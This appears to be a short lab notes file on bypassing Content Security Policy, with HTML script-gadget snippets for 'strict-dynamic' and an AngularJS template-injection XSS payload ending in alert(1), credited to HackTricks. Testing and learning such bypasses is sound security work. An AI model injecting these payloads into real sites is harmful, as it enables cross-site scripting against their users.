 ## strict-dynamic
```html
<button data-role="button" data-text="push me"></button>
<div data-role="button" data-text="push me"></div>
```

<!-- uncomment the CSP in app.py and the loading of angular in index.html -->

## angular
```html
<div ng-app>{{''.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}}</div>
```
* [payload from](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#third-party-endpoints-+-unsafe-eval)
* idk why this works, I've never used angular [this is what ng-app does?](https://www.w3schools.com/angular/ng_ng-app.asp)
